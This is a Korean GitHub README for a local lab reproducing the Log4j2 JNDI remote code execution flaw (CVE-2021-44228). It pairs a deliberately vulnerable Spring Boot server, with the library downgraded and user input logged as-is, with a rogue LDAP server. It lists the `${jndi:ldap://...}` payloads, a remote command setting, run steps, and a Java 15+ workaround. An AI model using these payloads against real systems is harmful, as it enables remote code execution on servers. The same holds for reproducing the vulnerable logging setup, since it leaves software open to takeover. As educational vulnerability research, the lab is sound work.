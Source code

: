 # Log4j2 2.14.1 LDAP 원격 코드 실행 취약점(CVE-2021-44228) 확인

> 🎈 Spring Boot 2.x 환경에서 테스트

* 취약점 공지
  * https://nvd.nist.gov/vuln/detail/CVE-2021-44228

## [target-server](target-server)

* pom.xml : Log4j2 버전을 취약버전으로 낮춤

  ```xml
  <properties>
    <java.version>17</java.version>
    <!-- Spring Boot 2.7.3는 2.17.2 디펜던시를 가지지만, 일부러 버전을 낮춘다.-->
    <log4j2.version>2.14.1</log4j2.version>
  </properties>
  ```

* LoggingController : 사용자의 입력을 그대로 받아 로깅하는 컨트롤러 메서드 추가
  ```java
    @PostMapping("/form")
    public String form(String ldapString, RedirectAttributes rttr) {
      try {
        LOGGER.info("{}", ldapString);
        rttr.addFlashAttribute("exception", "예외 발생 X");
      } catch (Exception e) {
        rttr.addFlashAttribute("exception", "예외발생 O: " + e.getMessage());
      }
      return "redirect:/";
    }
  ```

* 브라우저 실행

  ![target-server-view.png](doc-resources/target-server-view.png)



### 동작 확인 내용

1. 실제로 `${jndi:ldap://127.0.0.1:19090/run}` 문자열을 서버로 전송했을 때, 서버가 `127.0.0.1:19090` 로 접속을 시도한다.

   ```
   2022-01-03 13:16:52.526  INFO 14736 --- [nio-8080-exec-7] o.m.t.c.LoggingController                : ${jndi:ldap://127.0.0.1:19090/run}
   2022-01-03 13:17:09,993 http-nio-8080-exec-10 WARN Error looking up JNDI resource [ldap://127.0.0.1:19090/run]. javax.naming.CommunicationException: 127.0.0.1:19090 [Root exception is java.net.ConnectException: Connection refused: connect]
   ...
   ```

   로컬의 19090 포트에 LDAP 서버가  켜져 있는 것은 아니여서 `Connection refused: connect` 예외로 에러 로그가 남음.

2. `LOGGER.info("{}", ldapString);` 코드에서 **JNDI 에러 예외가 던져지지 않았다.** 

   * 로그를 자세하게 확인하지 않고 지나가면 잊고 지나가기 쉬운 문제인 것 같다.





## [ldap-server](ldap-server)  

https://github.com/veracode-research/rogue-jndi  이 코드에서 Tomcat 관련된 부분만 조사해서, 단순한 Spring Boot 프로젝트로 구성했다.

Tomcat관련 부분만 조사한 이유는...

일단 대상 테스트 서버가 Spring Boot의 내장 톰켓 기반이여서, Tomcat만 조사하여도 취약점 동작을 확인할 수 있을 것으로 보여 그렇게 진행했다.

**명령문 준비**

단순 계산기만 수행하기에는 너무 단순해서 cmd 명령어를 조합해보았다.

* ldapserver-config.properties 

  ```properties
  # 타겟 서버의 윈도우 OS 버전을 텍스트 파일에 기록한 다음 메모장으로 여는 내용
  ldaptest.remote.command=cmd /c ver > test.txt && notepad test.txt
  ...
  ```

  

실제로 해보니 정말로 테스트 타겟서버의 실행파일 원격 실행이 가능했다. 확인 방법은 아래와 같다.

1. ldap-server 서버, traget-server 실행

   ```bash
   # LDAP 서버 실행
   C:\git-mklinkj\log4j2-test\ldap-server>mvnw clean spring-boot:run
   
   # 테스트 타겟 서버 실행
   C:\git-mklinkj\log4j2-test\target-server>mvnw clean spring-boot:run
   ```

   

2. 테스트 타겟 서버에서 `${jndi:ldap://127.0.0.1:19090/o=tomcat}` 문자열 전송 후 확인

   ![remote-code-executed](doc-resources/remote-code-executed.png)

   **target-server 프로젝트 루트에 test.txt파일이 만들어지고, 메모장을 통해 실행이 되었음.**

   




## Java 15이상 환경에서 동작확인시...

타겟 Tomcat에 보낼 Payload 생성에 Java의 JavaScript 구현 Nashorn을 사용하는데, Java 15부터 Nashorn이 완전히 제거되었다. 그래서 ldap 서버가 타겟 Tomcat으로 명령어는 보냈지만 명령어가 실행되지 않는 문제가 있었다.

이때는..  nashorn-core 또는 rhino-engine 둘 중 하나만 타겟 Tomcat 서버에 라이브러리로 추가해주면 되었다.

```xml
<dependency>
  <groupId>org.openjdk.nashorn</groupId>
  <artifactId>nashorn-core</artifactId>
  <version>${nashorn.version}</version>
</dependency>
```

```xml
<dependency>
  <groupId>org.mozilla</groupId>
  <artifactId>rhino-engine</artifactId>
  <version>${rhino-engine.version}</version>
</dependency>
```

* 참고
  * JEP 372: Remove the Nashorn JavaScript Engine
    * https://openjdk.java.net/jeps/372
  * Known problems and workarounds
    * https://apache.github.io/jmeter-site-preview/site/changes.html



## Maven POM 부모-자식 관계에서 프로젝트 실행

**버전 관리를 편하게 하려고** `부모-자식` 관계로 pom.xml을 수정했는데, 다음과 같이 부모 pom 이 있는 디렉토리에서 실행할 수 있다.

```bash
# 전체 테스트
$ mvnw clean test

# 백그라운드로 실행하지 않으므로 별도의 콘솔창에서 각각 실행햐아한다.
$ mvnw clean spring-boot:run -pl ldap-server
$ mvnw clean spring-boot:run -pl target-server

# 하위 프로젝트 디렉토리에 직접 들어가서 실행해도 된다.
$ cd target-server
$ mvnw clean spring-boot:run
```



## 후기

* 실제로 진행보니 이 취약점을 방치하면 정말 위험한 것 같다. 개발, 스테이징 환경에서 테스트를 해서 LDAP 접속을 발생시키는 부분이 없는지 확인 되어야할 것 같다.
* [rogue-jndi](https://github.com/veracode-research/rogue-jndi) 레파지토리 작성하신  [Michael Stepankin](https://twitter.com/artsploit) 님 덕분에 확인을 할 수 있게되어 감사합니다.  😄



### 면책 조항 

이 소프트웨어는 교육 목적 및/또는 사용자가 사전에 공격을 허용한 시스템 테스트용으로만 제공됩니다. <br> ([rogue-jndi](https://github.com/veracode-research/rogue-jndi)에도 이 문구를 추가 하셨길레 따라서 넣었다. 😓)
